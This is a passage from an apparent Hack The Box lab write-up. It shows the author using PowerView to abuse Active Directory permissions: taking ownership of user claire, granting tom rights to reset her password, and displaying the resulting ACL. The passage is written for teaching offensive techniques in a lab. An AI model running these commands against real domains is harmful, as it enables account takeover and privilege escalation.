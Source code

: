 As we can see, the csv files were created and can now be imported in BloodHound. BloodHound indicates that tom can control claire and then the group backup_admins:
![](./143_screen01.png)

Let's exploit this with the existing `PowerView.ps1` script:
```
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Get-DomainObjectAcl -Identity claire -ResolveGUIDs | ? {$_.SecurityIdentifier -match $(ConvertTo-SID tom)}                                                                                                         


AceQualifier           : AccessAllowed                                                                                          
ObjectDN               : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL                                                               
ActiveDirectoryRights  : ExtendedRight                                                                                          
ObjectAceType          : User-Force-Change-Password                                                                             
ObjectSID              : S-1-5-21-2648318136-3688571242-2924127574-1130                                                         
InheritanceFlags       : None                                                                                                   
BinaryLength           : 56                                                                                                     
AceType                : AccessAllowedObject                                                                                    
ObjectAceFlags         : ObjectAceTypePresent                                                                                   
IsCallback             : False                                                                                                  
PropagationFlags       : None                                                                                                   
SecurityIdentifier     : S-1-5-21-2648318136-3688571242-2924127574-1107                                                         
AccessMask             : 256                                                                                                    
AuditFlags             : None                                                                                                   
IsInherited            : False                                                                                                  
AceFlags               : None                                                                                                   
InheritedObjectAceType : All                                                                                                    
OpaqueLength           : 0                                                                                                      

AceType               : AccessAllowed                                                                                           
ObjectDN              : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL                                                                
```